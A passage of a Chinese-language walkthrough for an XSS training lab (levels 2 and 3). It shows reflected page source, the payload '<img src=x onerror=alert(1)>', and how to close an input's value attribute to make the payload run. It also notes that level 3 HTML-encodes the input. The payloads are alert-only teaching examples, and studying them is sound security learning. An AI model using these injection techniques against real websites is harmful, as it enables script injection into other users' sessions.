 ```html
    <!DOCTYPE html><!--STATUS OK--><html>
	<head>
	<meta http-equiv="content-type" content="text/html;charset=utf-8">
	<script>
	window.alert = function()  
	{     
	confirm("完成的不错！");
	 window.location.href="level3.php?writing=wait"; 
	}
	</script>
	<title>欢迎来到level2</title>
	</head>
	<body>
	<h1 align=center>欢迎来到level2</h1>
	<h2 align=center>没有找到和&lt;img src=x onerror=alert(1)&gt;相关的结果.</h2><center>
	<form action=level2.php method=GET>
	<input name=keyword  value="<img src=x onerror=alert(1)>">
	<input type=submit name=submit value="搜索"/>
	</form>
	</center><center><img src=level2.png></center>
	<h3 align=center>payload的长度:28</h3></body>
	</html>
```

发现value值需要进行闭合操作

于是构造payload如下：">&lt;img src=x onerror=alert(1)&gt;<"  成功执行

![][15]


### Level 3

![][16]

输入构造的payload，查看网页源代码发现进行了html实体编码

```html
    <!DOCTYPE html><!--STATUS OK--><html>
	<head>
	<meta http-equiv="content-type" content="text/html;charset=utf-8">
	<script>
	window.alert = function()  
	{     
	confirm("完成的不错！");
	 window.location.href="level4.php?keyword=try harder!"; 
	}
	</script>
	<title>欢迎来到level3</title>
	</head>
	<body>
	<h1 align=center>欢迎来到level3</h1>
	<h2 align=center>没有找到和&lt;img src=x onerror=alert(1)&gt;相关的结果.</h2><center>
	<form action=level3.php method=GET>
	<input name=keyword  value='&lt;img src=x onerror=alert(1)&gt;'>
	<input type=submit name=submit value=搜索 />
	</form>
	</center><center><img src=level3.png></center>
	<h3 align=center>payload的长度:28</h3></body>
	</html>
```


[1]: resources/xss1.png
[2]: resources/xss2.png
[3]: resources/xss3.png
[4]: resources/xss4.png
[5]: resources/xss5.png
[6]: resources/xss6.png
[7]: resources/xss7.png
[8]: resources/xss8.png
[9]: resources/xss9.png
[10]: resources/xss10.png
[11]: resources/xss11.png
[12]: resources/xss12.png
[13]: resources/xss13.png
[14]: resources/xss14.png
[15]: resources/xss15.png
[16]: resources/xss16.png
[17]: resources/xss17.png
[18]: resources/xss18.png
[19]: resources/xss19.png
[20]: resources/xss20.png
[21]: resources/xss21.png